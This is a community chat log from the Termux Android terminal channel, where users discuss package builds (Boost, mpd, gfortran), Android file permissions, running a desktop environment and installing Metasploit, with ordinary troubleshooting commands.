2017-04-28 06:28:27	gitter1	(bitcoinmeetups) I've had some previous issues with my phone changing the date and time every time I restart it, not persistent time. Maybe could be related, maybe not.

2017-04-28 06:31:01	frumpylava	It's very weird.

2017-04-28 06:34:48	gitter1	(bitcoinmeetups) Well... I'd say it's slightly weird. Maybe we can forget about it for now because at least the script works, which is more important.

2017-04-28 06:35:12	gitter1	(bitcoinmeetups) Anyway, do you know if I can enable/disable USB tethering in Termux or Termux-API?

2017-04-28 06:35:57	frumpylava	No, I don't know. Sorry.

2017-04-28 06:39:59	gitter1	(bitcoinmeetups) Answering my own question. I just read the docs at https://termux.com/add-on-api.html

2017-04-28 06:40:17	gitter1	(bitcoinmeetups) There is no info about the USB tethering so I am guessing it is not a possibility from Termux at the moment

2017-04-28 08:20:36	live_the_dream	i was bored today so i did something

2017-04-28 08:23:35	live_the_dream	ledger build ../

2017-04-28 08:26:04	live_the_dream	so i got boost ... kind of working a bit

2017-04-28 09:05:17	gitter1	(vishalbiswas) Boost without python for me

2017-04-28 09:07:51	live_the_dream	yeah its not a huge deal since i only got it just to just satisfy ledger

2017-04-28 09:11:14	live_the_dream	until we move to libc++

2017-04-28 09:26:12	gitter1	(cocodevienne) How do I fix this?

2017-04-28 09:26:19	gitter1	(cocodevienne) `Hit:1 http://termux.net stable InRelease

2017-04-28 09:26:19	gitter1	(cocodevienne) Ign:2 http://cocodevienne.gitlab.io/termux termux InRelease                           Get:3 http://cocodevienne.gitlab.io/termux termux Release [333 B]

2017-04-28 09:26:19	gitter1	(cocodevienne) Ign:4 http://cocodevienne.gitlab.io/termux termux Release.gpg

2017-04-28 09:26:19	gitter1	(cocodevienne) [full message: https://gitter.im/termux/termux?at=590342fb881b89e1019500ae]

2017-04-28 10:38:39	u0_a306	quit

2017-04-28 10:38:42	u0_a306	exit

2017-04-28 10:38:59	u0_a306	bye

2017-04-28 11:04:58	phil42	.

2017-04-28 11:07:01	u0_a97	..

2017-04-28 11:29:21	gitter1	(prinxy) Hello room...  Am using how2 to search things with my Android phone.... How do I click on the links provided?

2017-04-28 11:46:51	u0_a97	how2?

2017-04-28 12:55:37	gitter1	(vishalbiswas) I'm now two updates behind openjdk. Did anyone try building latest tag?

2017-04-28 22:41:05	gitter1	(vishalbiswas) Isn't boost good enough to be merged into the main repo?

2017-04-28 22:45:30	gitter1	(mklein994) live_the_dream: I just tried compiling `ncmpcpp` with your boost package and it failed: `configure: error: cannot find the flags to link with Boost locale`. Is that an option missing from the `build.sh` for boost?

2017-04-28 22:45:54	live_the_dream	the boost.locale lib isn't build

2017-04-28 22:46:02	live_the_dream	you need to do that ...

2017-04-28 22:46:13	live_the_dream	but yeah i will try it now

2017-04-28 22:46:58	gitter1	(mklein994) OK thanks. I'm building on my phone, but I can try in a docker image too.

2017-04-28 22:46:58	live_the_dream	if i can build it i will up a version of it

2017-04-28 22:48:01	gitter1	(mklein994) I'd appreciate it. This was a quick test since you just posted that boost works.

2017-04-28 22:49:38	live_the_dream	which arch you using?

2017-04-28 22:53:07	gitter1	(mklein994) arm

2017-04-28 22:54:52	gitter1	(sdrausty) arm and you `live_the_dream`?

2017-04-28 22:55:02	live_the_dream	i use both aarch64 and arm

2017-04-28 22:55:14	live_the_dream	arm is old broken phone i use to test stuff

2017-04-28 22:58:41	live_the_dream	okay in a few seconds try --reinstall i didn't move the version number...

2017-04-28 22:58:47	live_the_dream	mistake on my part

2017-04-28 23:01:14	gitter1	(mklein994) OK I'll try..

2017-04-28 23:05:43	gitter1	(mklein994) OK next step: `program_options`.

2017-04-28 23:06:46	gitter1	(mklein994) If it's simple, I could try. Is there a reference for Boost compile options?

2017-04-28 23:07:59	gitter1	(mklein994) Here's where it failed: `configure: error: cannot find the flags to link with Boost program_options`

2017-04-28 23:16:44	live_the_dream	try updating

2017-04-28 23:20:47	gitter1	(mklein994) Trying again...

2017-04-28 23:27:43	gitter1	(mklein994) I might just want to find out what all the missing libraries are. Now its missing `Thread`.

2017-04-28 23:28:39	live_the_dream	we can't do thread

2017-04-28 23:32:24	gitter1	(mklein994) Noob question, but why not?

2017-04-28 23:33:45	live_the_dream	no wait

2017-04-28 23:33:47	live_the_dream	im wrong

2017-04-28 23:33:54	live_the_dream	some of these libs do not have android support

2017-04-28 23:33:59	live_the_dream	thread is fine

2017-04-28 23:55:59	qbject	hi all.

2017-04-29 00:12:10	abff	hulllo

2017-04-29 02:48:46	gitter1	(bitcoinmeetups) Is there a way to access the Termux home directory on the internal storage without using a root file explorer? ES file explorer cannot browse to this part of storage as far as I know.

2017-04-29 02:49:32	gitter1	(bitcoinmeetups) I want to edit the files in the home directory using an external text editor for convenience

2017-04-29 02:49:43	gitter1	(bitcoinmeetups) In an app like jota+

2017-04-29 02:50:57	gitter1	(vishalbiswas) setup a samba share or ftp

2017-04-29 02:51:10	gitter1	(vishalbiswas) ftp will be easier

2017-04-29 02:57:50	gitter1	(bitcoinmeetups) Isn't there an easier way to access files from the home directory in external apps? I'm thinking if Termux can access files higher up in the file hierarchy without root then I should be able to open files in Termux home with external apps as well.

2017-04-29 02:58:09	gitter1	(vishalbiswas) no

2017-04-29 02:58:29	gitter1	(vishalbiswas) you can open read-only but not for writing

2017-04-29 02:58:55	gitter1	(vishalbiswas) anything under /data/data is only accessible by the package that owns it

2017-04-29 02:59:00	gitter1	(bitcoinmeetups) Okay.

2017-04-29 02:59:13	gitter1	(bitcoinmeetups) I will move some files to external storage then.

2017-04-29 02:59:18	gitter1	(bitcoinmeetups) That should be alright, right?

2017-04-29 02:59:33	gitter1	(vishalbiswas) yes

2017-04-29 02:59:44	gitter1	(bitcoinmeetups) Also, how come Termux can do root exploring while ES explorer cannot?

2017-04-29 03:00:16	gitter1	(vishalbiswas) what do you mean?

2017-04-29 03:01:03	gitter1	(bitcoinmeetups) Well now I am looking around in the ../../../../../../etc folder for example

2017-04-29 03:01:15	gitter1	(bitcoinmeetups) I don't think that folder can be browsed in ES file explorer without root

2017-04-29 03:01:44	gitter1	(vishalbiswas) and what are the contents of that folder?

2017-04-29 03:02:38	gitter1	(bitcoinmeetups) Bluetooth_cal.acdb                 init.qcom.modem_links.sh

2017-04-29 03:02:38	gitter1	(bitcoinmeetups) C16QL_s5k2p2xx_module_info.xml     init.qcom.post_boot.sh

2017-04-29 03:02:38	gitter1	(bitcoinmeetups) Diag.cfg                           init.qcom.sdio.sh

2017-04-29 03:02:38	gitter1	(bitcoinmeetups) [full message: https://gitter.im/termux/termux?at=59043a8dd32c6f2f094feeb4]

2017-04-29 03:02:40	gitter1	(bitcoinmeetups) And more

2017-04-29 03:03:08	gitter1	(vishalbiswas) it should be accessible from es file explorer too

2017-04-29 03:04:01	gitter1	(bitcoinmeetups) Ah found the button now : D I had forgotten about its existence

2017-04-29 03:04:39	gitter1	(bitcoinmeetups) But when browsing using ES file explorer the Data folder is empty

2017-04-29 03:04:47	gitter1	(bitcoinmeetups) Even though show hidden files is on

2017-04-29 03:04:54	gitter1	(vishalbiswas) and you cannot `cd /data` in termux, too

2017-04-29 03:05:34	gitter1	(bitcoinmeetups) Ah, I see.

2017-04-29 03:05:44	gitter1	(vishalbiswas) because you don't have root access. `ls -lah /` to checkout permissions of these directories

2017-04-29 03:05:45	gitter1	(bitcoinmeetups) Only cd /data/com.termux

2017-04-29 03:05:57	gitter1	(vishalbiswas) yes because termux owns that folder

2017-04-29 03:06:11	gitter1	(vishalbiswas) and its `/data/data/com.termu`

2017-04-29 03:06:13	gitter1	(vishalbiswas) x

2017-04-29 03:06:21	gitter1	(vishalbiswas) not `/data/com.termux`

2017-04-29 03:07:22	gitter1	(bitcoinmeetups) Yep

2017-04-29 03:07:23	gitter1	(bitcoinmeetups) Ok

2017-04-29 03:07:40	gitter1	(bitcoinmeetups) I will go for a trip with the bicycle now

2017-04-29 03:07:48	gitter1	(bitcoinmeetups) See you later and thanks for the advice : D

2017-04-29 03:08:01	gitter1	(vishalbiswas) anytime (I'm awake)

2017-04-29 03:09:40	gitter1	(vishalbiswas) live_the_dream: where's your boost build scripts? I want to take a look

2017-04-29 03:26:31	live_the_dream	https://github.com/its-pointless/gcc_termux/tree/master/termux-packages/packages/boost

2017-04-29 03:29:53	live_the_dream	there is a patch which is my attempt to get the boost.python lib to link with python libs

2017-04-29 03:30:07	live_the_dream	because it relies on the linker

2017-04-29 03:30:11	live_the_dream	which we do not have

2017-04-29 03:30:16	gitter1	(vishalbiswas) does it work?

2017-04-29 03:30:36	live_the_dream	it linked if i recalled

2017-04-29 03:30:45	live_the_dream	apart from that i have nfi

2017-04-29 03:32:23	gitter1	(vishalbiswas) any package that relies heavily on boost, which I can test?

2017-04-29 03:32:27	live_the_dream	ledger

2017-04-29 03:32:36	live_the_dream	dunno bout python.boost

2017-04-29 03:44:26	gitter1	(vishalbiswas) your attempt looks way cleaner than mine although the build seems to be single threaded? bjam supports `-j` too

2017-04-29 03:45:02	live_the_dream	yeah

2017-04-29 03:45:19	live_the_dream	we should add this https://github.com/linux-on-android/patchelf

2017-04-29 03:45:42	gitter1	(vishalbiswas) `    - python                   : not building`?

2017-04-29 03:45:44	live_the_dream	if can change what libraries need so we can fix shit

2017-04-29 03:46:25	gitter1	(vishalbiswas) wow, never knew about that. we need it!

2017-04-29 03:46:45	live_the_dream	as in patchelf --add-needed libpython2.7 libutil.so will make libutil.so load pythonlib

2017-04-29 03:47:38	live_the_dream	there is a normal version but i never bothered to find android compat version

2017-04-29 04:06:46	gitter1	(vishalbiswas) were you successful in building pythonlib?

2017-04-29 04:16:50	gitter1	(vishalbiswas) because this is what I get `/home/vishal/.termux-build/_lib/toolchain-arm-ndk14-api21-v17/bin/../lib/gcc/arm-linux-androideabi/4.9.x/../../../../arm-linux-androideabi/bin/ld: error: cannot find -lpthread`

2017-04-29 04:17:19	live_the_dream	easy way around that

2017-04-29 04:17:27	live_the_dream	we don't need to specifcally link against that

2017-04-29 04:17:46	gitter1	(vishalbiswas) but where exactly is this flag getting added

2017-04-29 04:17:48	live_the_dream	so you can literally symlink libc.so libpthread.so i

2017-04-29 04:17:54	live_the_dream	its in python lib

2017-04-29 04:18:21	live_the_dream	if i recall

2017-04-29 04:18:23	gitter1	(vishalbiswas) but won't it still require a libpthread.so if i symlink?

2017-04-29 04:18:40	live_the_dream	no

2017-04-29 04:19:02	live_the_dream	we have one

2017-04-29 04:19:09	live_the_dream	its a symlink on the device

2017-04-29 04:19:51	gitter1	(vishalbiswas) I didn't know that. If its a symlink on device why isn't there one when building? might have to fix that

2017-04-29 04:19:53	live_the_dream	we just don't bother with when cross compiling

2017-04-29 04:20:25	live_the_dream	when you create a toolchain

2017-04-29 04:20:28	live_the_dream	make a symlink

2017-04-29 04:25:04	gitter1	(vishalbiswas) it did build successfully

2017-04-29 04:28:14	gitter1	(vishalbiswas) looks like all modules can be built except context, coroutine and coroutine2

2017-04-29 04:58:17	live_the_dream	i did good?

2017-04-29 04:58:22	live_the_dream	me did good

2017-04-29 06:07:22	gitter1	(vishalbiswas) now we need some packages to test these

2017-05-01 22:44:31	gitter1	(mklein994) @fornwall neovim 0.2 was just released: https://github.com/neovim/neovim/releases

2017-05-02 00:36:34	u0_a92	/

2017-05-02 02:13:26	frumpylava	Is it a known problem that termux-setup-storage doesn't work over ssh?

2017-05-02 02:57:59	gitter1	(cocodevienne) So when can I expect a fix?@fornwall

2017-05-02 05:38:04	gitter1	(cocodevienne) https://github.com/cocodevienne/guessamania/blob/master/source/app/headers/stringconversion.hpp

2017-05-02 05:38:38	gitter1	(cocodevienne) Here's a fix. Anyone who wants to convert ints to strings can use this header.

2017-05-02 05:38:42	gitter1	(cocodevienne) @fornwall

2017-05-02 07:34:06	Satyam2345	Yooohooo

2017-05-02 07:34:09	Satyam2345	Anyone here

2017-05-02 08:02:13	MrTijn	Satyam2345: There are always people here, if you have a question or something just ask it and wait for a response

2017-05-02 08:02:47	Satyam2345	How far I can make termux as a desktop

2017-05-02 08:03:11	live_the_dream	?

2017-05-02 08:03:19	Satyam2345	I don't see any DE , and I don't expect one

2017-05-02 08:04:30	Satyam2345	I just want to install metasploit

2017-05-02 08:04:35	Satyam2345	Is that possible

2017-05-02 08:05:37	gitter1	(cocodevienne) What? Someone need german?

2017-05-02 08:05:40	gitter1	(cocodevienne) Here!

2017-05-02 08:06:29	Satyam2345	I need metasploit

2017-05-02 08:07:09	Satyam2345	Do you have any list of programs that can be installed

2017-05-02 08:08:28	gitter1	(cocodevienne) Uhm no, you'll have to compile it from source bzw. install it from source. @vishalbiswas managed some witchcraft in that direction... Uhm, any help, amigo? @vishalbiswas

2017-05-02 08:11:25	Satyam2345	gitter1: is it possible to have a DE

2017-05-02 08:16:04	MrTijn	Satyam2345: You can't get a DE in termux

2017-05-02 08:16:17	MrTijn	To get a list of all installable packages, run 'apt list'

2017-05-02 08:16:35	MrTijn	Of course you can compile packages yourself if you have the skill & knowledge

2017-05-02 08:24:00	gitter1	(cocodevienne) DE? What is DE?

2017-05-02 08:24:07	gitter1	(cocodevienne) Do you meab

2017-05-02 08:24:16	gitter1	(cocodevienne) *mean an IDE?

2017-05-02 08:24:28	frumpylava	@cocodevienne Desktop Environment.

2017-05-02 08:27:10	frumpylava	There's no X Window System on Android, so no DE can run.

2017-05-02 08:36:05	gitter1	(vishalbiswas) but can we do one over vnc?

2017-05-02 08:45:30	frumpylava	Well, there is XSDL, so I think an X Server is theoretically possible.

2017-05-02 08:46:13	Satyam2345	Can someone tell me how to make a program run on termux.

2017-05-02 08:46:21	Satyam2345	I need some docs on termux

2017-05-02 08:46:43	Satyam2345	Is it a chroot Linux

2017-05-02 08:46:57	 *	Satyam2345 got so many questions

2017-05-02 08:48:19	frumpylava	Satyam2345: It's not a chroot linux. It's a prefixed system

2017-05-02 08:48:46	Satyam2345	For example  this https://github.com/busyloop/lolcat

2017-05-02 08:48:46	frumpylava	Similar to gentoo-prefix

2017-05-02 08:50:49	frumpylava	Satyam2345: you can install ruby with `packages install ruby` then you can install lolcat with `gem install lolcat`

2017-05-02 08:52:17	Satyam2345	If I get root can I get this system to interact with Android hardware. Like doing hardware changes

2017-05-02 08:52:44	frumpylava	yes

2017-05-02 08:53:39	Satyam2345	Ohh , it would be great if I can run metasploit on it. I just have to port it

2017-05-02 08:54:42	Satyam2345	How this prefix system is different than a chroot system

2017-05-02 08:54:43	gitter1	(cocodevienne) Vishal, what do you think about the header?

2017-05-02 08:54:47	gitter1	(cocodevienne) @vishalbiswas

2017-05-02 08:54:53	gitter1	(cocodevienne) Will it do?

2017-05-02 08:56:15	frumpylava	Satyam2345: A prefixed system runs natively, but all the programms need to be compiled specifically for it. The programs don't run from /bin but from $PREFIX/bin.

2017-05-02 08:56:56	gitter1	(vishalbiswas) I... am under-qualified. I use C, Java and C# mostly. Wouldn't mind Rust, though

2017-05-02 08:57:04	gitter1	(vishalbiswas) @cocodevienne

2017-05-02 08:58:09	Satyam2345	frumpylava:  thanks , it is native then it's so good .

2017-05-02 08:58:18	gitter1	(vishalbiswas) Satyam2345: I must warn you that metasploit+Android = $#!T performance

2017-05-02 08:58:53	Satyam2345	Snapdragon 2ghz octacore

2017-05-02 08:59:22	gitter1	(vishalbiswas) Metasploit is ruby based

2017-05-02 08:59:32	gitter1	(vishalbiswas) Not C or even Python

2017-05-02 08:59:57	gitter1	(vishalbiswas) Whatever you have, its still bionic underneath

2017-05-02 09:03:27	Satyam2345	https://usercontent.irccloud-cdn.com/file/RHdJQJRR/Screenshot_2017-05-02-18-26-53-741_com.termux.png

2017-05-02 09:03:37	Satyam2345	Heres the lolcat

2017-05-02 09:04:23	Satyam2345	You could add that in repo maybe

2017-05-02 09:05:44	frumpylava	Satyam2345: We generally avoid packaging programs that can be easily installed with either pip or gem.

2017-05-02 09:07:43	Satyam2345	Ohh well that also help in keeping server clean

2017-05-02 09:08:27	gitter1	(vishalbiswas) frumpylava: do you have any idea about how to run apps over an x server on termux?

2017-05-02 09:09:51	Satyam2345	Libhybris gitter1

2017-05-02 09:11:05	Satyam2345	Don't know if that is useful ,but it's something Ubuntu touch use to adapt hardware and display server

2017-05-02 09:11:28	frumpylava	@vishalbiswas I heard rumors about theories that Xephyr could work, but I was never able to do it myself. I tried running it in a chrooted Ubuntu on termux.

2017-05-02 09:13:19	Satyam2345	Can make a display server app , that connect to system xserver and mirror it's display in app

2017-05-02 09:13:31	Satyam2345	Crazy idea?

2017-05-02 09:14:32	gitter1	(vishalbiswas) I'm trying to compile tigervnc, but with little luck

2017-05-02 22:07:46	live_the_dream	single threaded compiles are annoying...

2017-05-02 22:59:26	bravecold	hi, how can i stop a looped process

2017-05-02 23:00:25	bravecold	is there any way to send a ctrl+c?

2017-05-02 23:04:29	gitter1	(vishalbiswas) Volume Down + C

2017-05-03 02:36:24	live_the_dream	compiling sonething with a 50 thousand line header is annoying

2017-05-03 02:50:14	m712	lol

2017-05-03 02:50:22	m712	is it a generated header?

2017-05-03 02:51:05	live_the_dream	no look up CImg.h

2017-05-03 02:51:22	live_the_dream	to compile gmic has to be single thread

2017-05-03 07:28:49	gitter1	(Toha_de_twitter) hola..

2017-05-03 07:29:51	gitter1	(Toha_de_twitter) how to open file with termux,  have install laravel on android, and how to open the file with tremux ? thanks

2017-05-03 10:34:31	Alpha256	will the updated luajit be packaged for termux?

2017-05-03 10:37:53	Alpha256	luajit 2.1.0 beta3

2017-05-04 01:34:31	vitok	hi all

2017-05-04 01:35:02	frumpylava	vitok: hi

2017-05-04 01:35:27	vitok	can I setup termux  session title from a shell (bash)?

2017-05-04 01:36:58	vitok	as bash prompt for example

2017-05-04 02:57:17	gitter1	(DNTech) you want to change the bash prompt?

2017-05-04 02:58:14	gitter1	(DNTech) @Toha_de_twitter

2017-05-04 02:58:31	gitter1	(DNTech) what do you actually mean?

2017-05-04 02:58:56	gitter1	(DNTech) Open file within termux or open file with external editor?

2017-05-04 07:45:38	gitter1	(mklein994) vitok: you mean the title in the sidebar; the sidebar used when creating new sessions?

2017-05-04 08:07:27	gitter1	(mklein994) vitok: you could do that with `$PROMPT_COMMAND`. Just use xterm escape sequences: `printf '\033]2;Hello\007'`, then swipe from the left to see the new title.

2017-05-04 10:53:18	gitter1	(jdubray) Greetings, love Termux! I have a quick question, has anyone been able to bundle a node.js app and create an APK to run that app "as-a-service"? I don't need any king of GUI, I just want it to run in the background as a local back-end to a Cordova Web app.

2017-05-05 01:40:44	nikita-sk	Hello. Has anybody successfully ran simh on termux?

2017-05-05 10:42:56	frumpylava	:q

2017-05-05 10:43:03	frumpylava	lol sorry.

2017-05-05 14:14:53	gitter1	(namdnguyen) hi, do you guys know if there is a way to downgrade or set the ruby version? I've tried rbenv, but the build fails.

2017-05-06 00:25:05	Dhananjay_	Hi! I am android user and I want to install metasploit in termux please anybody can help me.

2017-05-06 05:19:36	Satyam2345	Dhananjay_: you can't right now

2017-05-06 05:19:43	Satyam2345	I asked same thing heree

2017-05-06 05:19:56	live_the_dream	?

2017-05-06 05:21:35	Satyam2345	Well I didn't compiled it so can't tell . It may work if someone give time to compile it . My pc is dead

2017-05-06 05:38:47	live_the_dream	metasploit

2017-05-06 05:38:48	live_the_dream	?

2017-05-06 06:52:56	gitter1	(cocodevienne) Simply include it and use this `g++ -o file file.cpp `. That is it! @prinxy

2017-05-06 08:23:14	gitter1	(Auxilus) Dhananjay please contact @vishalbiswas , he helped me compile metasploit...works fine...

2017-05-06 08:37:28	gitter1	(cocodevienne) True! @Auxilus  Please tell me too!! @vishalbiswas

2017-05-06 11:18:33	gitter1	(vishalbiswas) live_the_dream: do you know how to package ruby packages? Metasploit has been requested many times.

2017-05-06 13:26:49	sumit	whats that problem can anyone solve thats

2017-05-06 13:30:29	sumit	when i run packages upgrade command then thats i saw error: dpkg was interrupted, you must manually run 'dpkg --configure -a' to correct the problem.

2017-05-06 13:31:07	sumit	how to solve that?

2017-05-06 13:55:10	gitter1	(Auxilus) Have you tried apt update ?

2017-05-06 13:55:38	gitter1	(Auxilus) Do `apt update && apt upgrade `

2017-05-06 13:55:49	gitter1	(Auxilus) See if it solves the problem

2017-05-06 14:02:57	gitter1	(vishalbiswas) Run `dpkg --configure -a` as it suggests

2017-05-06 16:13:38	sdrausty	~voice hello

2017-05-06 16:44:24	live_the_dream	@vishalbiswas ruby packages ? no idea

2017-05-06 16:45:42	gitter1	(cocodevienne) @vishalbiswas Could you walk me through the steps of getting it set up?

2017-05-06 21:10:08	italktocomputers	hello, good evening!

2017-05-06 21:14:53	italktocomputers	has anybody got experience with 'rooting' android devices?

2017-05-06 21:28:17	gitter1	(mklein994) italktocomputers: Yeah; what device do you have?

2017-05-06 21:35:37	sdrausty	https://www.reddit.com/r/linux/comments/66fh4f/what_do_you_use_termux_on_android_for/

2017-05-06 21:35:46	sdrausty	?

2017-05-06 21:38:47	sdrausty	@vishalbiswas @cocodevienne @mklein994 @fornwall

2017-05-06 21:46:50	gitter1	(vishalbiswas) testing my packages...

2017-05-06 21:55:08	rods-tab3	what program is that in the reddit ?

2017-05-06 21:57:08	rods-tab3	i got termux so i could run awk/gawk on aarch64 lenovo tab3 8 tablet

2017-05-06 22:18:09	sdrausty	rods-tab3: What do you use awk and gawk for?

2017-05-06 22:27:25	rods-tab3	short list,   >200 items  http://web.archive.org/web/20160323045835/http://awk.info/?Sitemap

2017-05-06 22:44:18	u0_a173	mobibot: weather xinxiang

2017-05-06 23:48:57	sdrausty	A Table of Contents: rods-tab3: WoW! thx

2017-05-07 00:04:34	rods-tab3	you just do:  apt install gawk   -- and there you have it - the latest 4.1.4 w MPFR

2017-05-07 02:41:39	gitter1	(cocodevienne) - testing Python packages

2017-05-07 02:41:55	gitter1	(cocodevienne) - testing C++ programs

2017-05-07 02:42:21	gitter1	(cocodevienne) - writing C++ and Python packages/programs

2017-05-07 02:42:33	gitter1	(cocodevienne) - developing fun projecys in general

2017-05-07 02:42:44	gitter1	(cocodevienne) I use Termux wayy more than my PC.

2017-05-07 02:42:48	gitter1	(cocodevienne) @sdrausty

2017-05-07 05:30:46	MrTijn	u0_a173: Can you maybe stop the join/leave spam? It's quite annoying

2017-05-07 07:41:03	live_the_dream	u0_a1731: is annoying me

2017-05-07 07:41:40	live_the_dream	welp /ignore time

2017-05-07 08:56:38	gitter1	(vishalbiswas) ah! Gitter

2017-05-07 08:56:51	gitter1	(vishalbiswas) I'm immune to such nuisances

2017-05-07 09:25:38	gitter1	(cocodevienne) Vishal, what about Metasploit? You could walk me through the steps!:)

2017-05-07 09:57:29	gitter1	(vishalbiswas) Install from source repo. Follow official steps

2017-05-07 11:02:32	gitter1	(cocodevienne) These steps?

2017-05-07 11:02:34	gitter1	(cocodevienne) https://github.com/rapid7/metasploit-framework/wiki/Setting-Up-a-Metasploit-Development-Environment

2017-05-07 11:05:40	gitter1	(cocodevienne) Some of the prerequisite packages aren't there...

2017-05-07 11:05:58	gitter1	(cocodevienne) *available inside Termux.

2017-05-07 11:19:28	gitter1	(vishalbiswas) you don't need them

2017-05-07 14:28:13	rods-tab3	did the wifi lock from the notification go away ?

2017-05-07 14:30:36	rods-tab3	weechat or irssi ?

2017-05-07 15:53:26	frumpylava	rods-tab3: weechat. It's newer and more user friendly. But it's the same as with screen and tmux. People who are used to the former are very reluctant to switch to the latter.

2017-05-07 15:55:05	rods-tab3	thanks

2017-05-07 15:56:51	frumpylava	also the scrollwheel support is excellent for termux. I wish profanity had that.

2017-05-07 16:31:29	live_the_dream	ok since boost is in music player daemon is compiling... but not quite working there is code for opensl and openal therd though

2017-05-07 16:33:05	live_the_dream	fornwall or ackalker (where did he go?  is probably going to be requrred to get it to work within termux though

2017-05-07 16:33:31	live_the_dream	that is all... ;)

2017-05-07 18:29:03	live_the_dream	opensles isn't going to work its a java implementation openal might

2017-05-07 19:33:53	live_the_dream	okay mpd hangs a lot if you don't use latest openal-soft sources

2017-05-07 19:59:05	u0_a129	hi people

2017-05-07 20:27:54	van777	ockert: hi. I've managed to port forward and ssh from android tv box with termux to the server with weechat. Nice

2017-05-07 20:31:54	van777	tmux on termux, screen on the server..

2017-05-08 00:14:34	live_the_dream	hmm seems mpd is using clock_monotone ...

2017-05-08 01:44:04	gitter1	(vishalbiswas) live_the_dream: E: Problem parsing dependency Depends

2017-05-08 01:44:04	gitter1	(vishalbiswas) E: Error occurred while processing libsoup (NewVersion2)

2017-05-08 01:44:04	gitter1	(vishalbiswas) E: Problem with MergeList /data/data/com.termux/files/usr/var/lib/apt/lists/its-pointless.github.io_files_dists_termux_extras_binary-arm_Packages

2017-05-08 01:44:04	gitter1	(vishalbiswas) E: The package lists or status file could not be parsed or opened.

2017-05-08 02:44:51	live_the_dream	fixed? should be

2017-05-08 04:26:15	gitter1	(Auxilus) Use https://goo.gl/Lso1k2 to get metasploit package ( provided by @vishalbiswas )

2017-05-08 04:30:45	gitter1	(Auxilus) Broken url....sry

2017-05-08 04:30:57	gitter1	(Auxilus) Use this 1 => http://bit.ly/2pbOI16

2017-05-08 06:03:34	Regenaxer	Hi all! Is there any chance that the librsvg2-bin package (for the rsvg-convert executable) will be provided in Termux? As librsvg is there already ...

2017-05-08 06:20:45	live_the_dream	doesn't that exist in librsvg?

2017-05-08 06:27:32	Regenaxer	ah, good question

2017-05-08 06:31:40	Regenaxer	on Debian they are separate packages

2017-05-08 07:04:34	live_the_dream	we are too damn lazy to be making 20k packages constantly

2017-05-08 07:48:11	gitter1	(swanth) Hi ! I am trying to build g95 in termux from source code. While doing ./configure I am stuck at

2017-05-08 07:48:13	gitter1	(swanth) checking for alloca... yes

2017-05-08 07:48:14	gitter1	(swanth) host = aarch64-unknown-linux-gnu

2017-05-08 07:48:14	gitter1	(swanth) configure: error: Unknown floating point architecture

2017-05-08 07:48:55	gitter1	(swanth) any ideas how to fix the architecture issue

2017-05-08 08:01:02	live_the_dream	comping the fortran compiler?

2017-05-08 08:02:39	gitter1	(swanth) Yes! I am unable to find a fortran compiler package for termux. And decided to build g95 from source.

2017-05-08 08:03:25	live_the_dream	iv got one

2017-05-08 08:04:06	live_the_dream	https://github.com/its-pointless/gcc_termux its my repo

2017-05-08 08:04:28	live_the_dream	indtruction there so you can use apt

2017-05-08 08:04:50	live_the_dream	what fortran package you after?

2017-05-08 08:05:41	live_the_dream	iv got scipy R octsve working

2017-05-08 08:06:07	live_the_dream	octave ..

2017-05-08 08:06:20	gitter1	(swanth) Thanks! Anything would do the job. gfortran g95 would be great, I've used them before.

2017-05-08 08:07:02	live_the_dream	gfortran is in the gcc package if you add my apt to sources.list etc

2017-05-08 08:07:50	gitter1	(swanth) Thanks!

2017-05-08 09:11:48	Regenaxer	live_the_dream: Indeed, rsvg-convert *is* in the package! Thanks for the hint :)

2017-05-08 10:05:26	gitter1	(bitcoinmeetups) Hi there,

2017-05-08 10:05:35	gitter1	(bitcoinmeetups) Is there a one liner to close all active Termux windows and sessions?

2017-05-08 10:05:45	gitter1	(bitcoinmeetups) Apart from typing exit in each and every one of them

2017-05-08 10:13:03	Regenaxer	What is pretty fast is typing Ctrl-D repeatedly

2017-05-08 10:13:12	Regenaxer	if you have IGNOREEOF=0 in your .bashrc

2017-05-08 10:25:55	gitter1	(bitcoinmeetups) Ah yes now I remember.

2017-05-08 10:26:13	gitter1	(bitcoinmeetups) Haha. Thanks.

2017-05-08 12:33:03	gitter1	(vishalbiswas) Ever had that moment where you have to do something on another branch but your working directory is so messed up that you don't even remember what goes where?

2017-05-08 13:01:23	gitter1	(vishalbiswas) `gevent.hub.InvalidSwitchError: Invalid switch into <Hub at 0xb658ac10 epoll default pending=0 ref=7 fileno=9>: () (expected <object object at 0xb6bd7528>)

2017-05-08 13:01:23	gitter1	(vishalbiswas) Segmentation fault` Any ideas?

2017-05-08 13:54:38	chatter29	hey guys

2017-05-08 13:54:42	chatter29	allah is doing

2017-05-08 13:54:47	chatter29	sun is not doing allah is doing

2017-05-08 13:54:51	chatter29	to accept Islam say that i bear witness that there is no deity worthy of worship except Allah and Muhammad peace be upon him is his slave and messenger

2017-05-08 16:02:51	gitter1	(Auxilus) What the hell ???! Another botter

2017-05-08 16:02:51	gitter1	(Auxilus)

2017-05-08 18:35:14	gitter1	(mklein994) @Auxilus wouldn't it be ironic if it was scripted using Termux…

2017-05-08 18:35:34	gitter1	(fornwall) @mklein994 :)

2017-05-08 20:37:16	rods-tab3	termux does scripting ?

2017-05-08 20:54:37	miczac	yes

2017-05-08 22:02:33	sdrausty	~eval #c 1

2017-05-08 23:03:01	gitter1	(Auxilus) @marcusti I'd go and create my own 1 if that's the case ! 😁

2017-05-09 00:57:17	joe_alf	Is there alternative for exiftool or qpdf for termux. I want to clean pdf metadata on my android phone before sending or sharimg pdf file?

2017-05-09 01:05:19	frumpylava	joe_alf: Try poppler

2017-05-09 01:10:52	joe_alf	hi i was disconnected. is there alternative for exiftool or qpdf for clearing pdf file metadata?

2017-05-09 01:19:58	frumpylava	joe_alf: Try poppler

2017-05-09 01:21:29	joe_alf	thanks. checking it now.

2017-05-09 01:48:18	joe_alf	frumpylava: seems that its a library and have to be used on code?

2017-05-09 01:50:03	frumpylava	joe_alf: it has utilities like pdfinfo and pdfunite

2017-05-09 01:50:32	frumpylava	 i know that pdfunite always strips metadata from my pdf files

2017-05-09 02:12:36	joe_alf	frumpylava: thank you very much.

2017-05-09 04:23:29	frumpylava	hm... I wonder what the cheapest phone that can run termux is.

2017-05-09 05:24:50	Satyam2345	frumpylava: freedom 251

2017-05-09 05:25:46	Satyam2345	That's like 3.5$ phone

2017-05-09 05:26:29	gitter1	(cocodevienne) yeah unboxtherapy did a video on it

2017-05-09 05:26:51	gitter1	(cocodevienne) keep in mind it needs at least android 5.0

2017-05-09 05:27:05	gitter1	(cocodevienne) what about the android one phones?

2017-05-09 05:28:28	Satyam2345	^that was cheapest smartphone I known

